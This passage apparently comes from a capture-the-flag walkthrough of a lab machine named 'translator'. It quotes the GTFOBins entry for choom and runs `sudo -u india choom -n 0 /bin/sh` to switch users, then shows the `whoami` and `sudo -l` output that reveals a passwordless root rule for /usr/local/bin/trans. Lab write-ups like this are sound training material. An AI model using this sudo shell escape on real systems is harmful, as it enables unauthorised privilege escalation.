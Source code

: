 `file /usr/bin/choom`:
```
/usr/bin/choom: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6cadcb44786665809e672e136da9f8c6fd032b2e, for GNU/Linux 3.2.0, stripped
```

<div>
	<img src="./assets/logo_gtfobins.png" alt="GTFOBins Logo" width="16" height="auto">
	<span style="color: white; font-size: 110%;"><strong>GTFOBins</strong></span>
</div>

[choom](https://gtfobins.github.io/gtfobins/choom/)

[**#Sudo**]

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
```
sudo choom -n 0 /bin/sh
```

![Victim: ocean](https://img.shields.io/badge/Victim-ocean-64b5f6?logo=linux&logoColor=white)

`sudo -u india choom -n 0 /bin/sh`

![Victim: india](https://img.shields.io/badge/Victim-india-64b5f6?logo=linux&logoColor=white)

`whoami`:
```
india ←
```

`sudo -l`:
```
Matching Defaults entries for india on translator:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User india may run the following commands on translator:
    (root) NOPASSWD: /usr/local/bin/trans ←
```

